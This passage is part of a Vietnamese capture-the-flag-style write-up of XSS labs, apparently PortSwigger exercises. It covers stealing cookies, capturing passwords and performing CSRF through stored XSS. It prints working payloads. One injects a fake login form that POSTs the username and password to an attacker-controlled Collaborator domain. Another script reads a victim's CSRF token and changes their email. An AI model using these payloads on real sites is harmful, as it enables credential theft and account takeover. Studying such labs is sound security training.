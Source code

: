 >Kiểm tra trên Collaborator thì thấy đã có request đến và body chứa cookie của một user đã xem comment: ![image](https://hackmd.io/_uploads/H18B2i47A.png)

>Truy cập trang web với cookie vừa trộm được: ![image](https://hackmd.io/_uploads/SJrF3j4mR.png)

>Tải lại trang và thành công truy cập vào tài khoản `administrator`, hoàn thành bài lab: ![image](https://hackmd.io/_uploads/Hyv2ns4mA.png)

# **23. Lab: Exploiting cross-site scripting to capture passwords**
![image](https://hackmd.io/_uploads/rkcuCsEmA.png)

>Lab này đã dùng cờ `HttpOnly` nên ta không thể trộm cookie như trước.

>Chức năng comment bài này cũng dính Stored XSS. Ngoài ra vì ứng dụng sử dụng một app khác tự động nhập password khi có form đăng nhập nên ta sẽ tận dụng XSS để tạo 1 form đăng nhập fake và sử dụng onchange event tại password input để gửi password về collaborator domain mình control.

>Payload có dạng như sau:

```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://zy1j25g4t64x0m8ooxn794h12s8mwck1.oastify.com',{
method:'POST',
body:username.value ':' this.value
});">
```

>Nó sẽ POST đến collaborator tài khoản nạn nhân khi onchange tại password kích hoạt. Ta gửi payload ở trường **comment**: ![image](https://hackmd.io/_uploads/rkdIWh4QA.png)

>Sau khi gửi và đợi 1 chút thì thấy có request đến Collaborator chứa account cần tìm là `administrator:o16dlwh55u59wrkpzkea`:
>![image](https://hackmd.io/_uploads/B1Xwr2VXR.png)

>Tiến hành đăng nhập với username và password trộm được và hoàn thành bài lab: ![image](https://hackmd.io/_uploads/Hyiir3EXA.png)

# **24. Lab: Exploiting XSS to perform CSRF**

![image](https://hackmd.io/_uploads/r1iILnVXC.png)

>Ứng dụng web này tiếp tục dính Stored XSS tại comment. Lần này ta sẽ tận dụng lỗ hổng này để CSRF làm thay đổi email của nạn nhân.

>Đầu tiên, đăng nhập tài khoản có sẵn `wiener:peter` để xem form update email. GET đến `/my-account`, form update email gồm 2 trường `email` và `csrf` (sẽ được tạo sẵn sau khi load form): ![image](https://hackmd.io/_uploads/SkJIEYPXA.png)

> Khi thực hiện điền form và update email, sẽ có 1 POST request đến `/my-account/change-email` với `email` và `csrf` tương ứng: ![image](https://hackmd.io/_uploads/Hk8_NYP7R.png)

> Sau khi đã biết được quy trình thay đổi email, ta thực hiện tạo payload như sau:
```javascript
<script>
var request = new XMLHttpRequest();
request.onload = csrfEmail;
request.open('get','/my-account',true);
request.send();
function csrfEmail() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('POST', '/my-account/change-email', true);
    changeReq.send('email=ducanh@gmail.com&csrf='+token)
};
</script>
```